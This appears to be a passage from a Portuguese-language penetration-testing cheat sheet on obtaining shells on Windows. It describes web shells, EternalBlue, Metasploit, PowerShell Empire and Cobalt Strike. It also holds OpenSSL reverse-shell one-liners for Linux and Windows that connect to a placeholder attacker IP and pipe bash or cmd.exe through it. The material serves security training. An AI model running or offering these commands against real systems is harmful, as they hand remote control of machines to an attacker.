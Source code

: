 ### Web Shells

As web shells são scripts ou programas que são implantados em um servidor web comprometido. Eles permitem que o atacante execute comandos no servidor comprometido por meio de uma interface web. Existem várias web shells disponíveis para sistemas Windows, como o WSO Shell e o China Chopper.

### Exploits

Os exploits são vulnerabilidades conhecidas em sistemas operacionais ou aplicativos que podem ser exploradas para obter acesso não autorizado. Existem vários exploits disponíveis para sistemas Windows, como o EternalBlue, que foi usado no ataque WannaCry.

## Recursos

### Metasploit Framework

O Metasploit Framework é uma ferramenta de código aberto amplamente utilizada para testes de penetração. Ele fornece uma ampla gama de módulos e exploits para explorar vulnerabilidades em sistemas Windows e obter acesso remoto.

### PowerShell Empire

O PowerShell Empire é uma estrutura de pós-exploração de código aberto que permite aos hackers manter o acesso persistente a sistemas Windows comprometidos. Ele fornece uma variedade de módulos e agentes para explorar e controlar sistemas Windows.

### Cobalt Strike

O Cobalt Strike é uma plataforma comercial de testes de penetração que oferece recursos avançados de pós-exploração. Ele permite que os hackers realizem ataques sofisticados em sistemas Windows, incluindo a criação de shells e a execução de comandos remotos.

## Conclusão

Obter um shell em sistemas Windows é uma etapa crucial no processo de hacking. Existem várias técnicas e recursos disponíveis para alcançar esse objetivo. É importante entender essas técnicas e recursos para realizar testes de penetração eficazes em sistemas Windows.
```bash
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```
## Powershell

O PowerShell é uma poderosa ferramenta de linha de comando e linguagem de script desenvolvida pela Microsoft. Ele foi projetado para automatizar tarefas administrativas e fornecer uma interface de linha de comando mais avançada para o sistema operacional Windows.
